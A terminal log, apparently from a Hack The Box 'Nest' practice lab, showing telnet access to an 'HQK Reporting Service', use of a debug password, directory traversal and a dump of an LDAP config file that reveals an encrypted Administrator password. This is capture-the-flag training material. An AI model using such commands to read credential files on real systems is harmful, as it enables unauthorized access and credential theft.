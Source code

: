 ```bash
luc@kali:~/Documents/Cyber-security/HTB/Nest/SMB/C.Smith/HQK Reporting$ telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>DEBUG WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>setdir ..

Current directory set to HQK
>LIST

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  ALL QUERIES
[DIR]  LDAP
[DIR]  Logs
[1]   HqkSvc.exe
[2]   HqkSvc.InstallState
[3]   HQK_Config.xml

Current Directory: HQK
>setdir LDAP

Current directory set to LDAP
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: LDAP
>showquery 2

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```
